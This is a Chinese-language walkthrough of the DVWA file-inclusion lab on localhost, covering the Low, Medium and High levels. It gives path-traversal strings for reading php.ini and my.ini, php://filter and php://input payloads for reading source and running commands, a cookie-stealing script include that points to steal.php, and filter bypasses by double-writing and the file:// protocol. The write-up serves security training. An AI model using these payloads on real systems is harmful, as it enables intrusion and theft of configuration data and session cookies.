Low
代码复现如下：
1 | <?php |
从源代码可以看出，当用户没有GET一个page值时，会自动给page赋值一个include.php，而这个include.php中就包含了三个文件给用户选择，希望用户能点击这三个文件进行文件包含
但是从攻击者的角度来看，当然不会乖乖的去点击这三个文件，因为page参数是不经过过滤，我们可以读取我们想要读的文件，前提是文件存在对应的目录。
我们先要清楚，如果包含的是php文件，则正确包含，如果不是php文件，则原封不动的将文件内容输出到页面上
这里说的php文件不一定是后缀名是php的文件，任何后缀文件只要里面包含了符合php语法的语句，通过文件包含函数include后，里面合法的代码就会被执行
举个例子，我们先在目录中创建一个phpinfo.txt
文件内容是：
1 | phpinfo(); |
然后给服务器GET一个page值为phpinfo.txt

发现正常显示phpinfo信息，由此可知，只要文件内容符合php语法规范，那么任何扩展名都可以被php解析
再将phpinfo.txt信息修改为非php语法规范的语句

同样给服务器GET一个page值为phpinfo.txt

发现暴露其源代码
所以我们可以利用这个特性，查看一些配置文件信息
首先要想查看文件信息，必定要弄清楚目录
我们先随便输入一个xxx.php

发现这个文件不存在，报错了，但同时把文件的绝对路径爆出来了
知道文件路径后，我们就可以查看一些配件文件，比如php配置信息
输入http://127.0.0.1/demo/file-inclusion/low.php?page=C:\phpStudy\PHPTutorial\WWW\dvwa/php.ini
或者输入../../../../../../../phpStudy/PHPTutorial/WWW/dvwa/php.ini
输入这么多的../是为了保证能回到根目录下

再看一下mysql配置信息
输入http://127.0.0.1/demo/file-inclusion/low.php?page=C:\phpStudy\PHPTutorial\mysql\my.ini

还可以使用php内置封装协议来读取php文件
输入?php://filter/read=convert.base64-encode/resource=include.php

发现一段被base64加密过后的php源代码，经过解密后就可以得到php文件原本的代码

再用php://input写入php命令，前提是allow_url_include选项要为on

在burpsuite中提交数据

发现提交的命令被执行了，那么是不是可以像xss一样提交恶意的脚本代码呢
我们提交
1 | <script>alert(‘xss’)</script> |


发现成功执行
我们再看看可不可以窃取cookie
输入
1 | echo"<script src='http://127.0.0.1/demo/xss(stored)/cookie.js'></script>" |


发现成功跳转到steal.php

成功窃取到cookie值
Medium
代码复现如下：
1 | <?php |
可以看出对http:// 和https://，../和..\有过滤，但是因为是str_replace函数，所以双写即可绕过
而且如果读取绝对路径的话，就没有什么影响

先看一下当前php文件的绝对路径

复写../构造路径读取php配置文件

读取mysql配置文件
使用php内置协议读取文件

任意命令执行

High
代码复现如下：
1 | <?php |
Fnmatch函数作用是在page值中搜索指定模式，指定必须以file开头的字符串才返回true，而我们要执行include，就必须不让if语句执行，所以page值必须以file开头
看似完全限制了，但是我们可以用file协议进行读取文件
